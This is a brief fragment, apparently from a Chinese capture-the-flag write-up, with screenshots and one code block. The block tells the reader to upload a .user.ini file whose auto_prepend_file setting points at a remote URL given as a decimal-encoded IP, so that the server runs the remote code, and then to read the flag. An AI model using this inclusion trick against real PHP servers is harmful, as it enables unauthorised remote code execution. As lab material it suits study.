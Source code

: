 ![1645519605790-36d29231-c184-4a5f-9a9d-184446245c42.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912170959025-1551528425.png)

```plain
上传.user.ini，包含远程地址：auto_prepend_file=http://794750069/
然后读取flag
```

![1645519972021-e35a3d58-3f40-4d1a-b04b-8e3643bb028d.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230912171001003-1775969364.png)
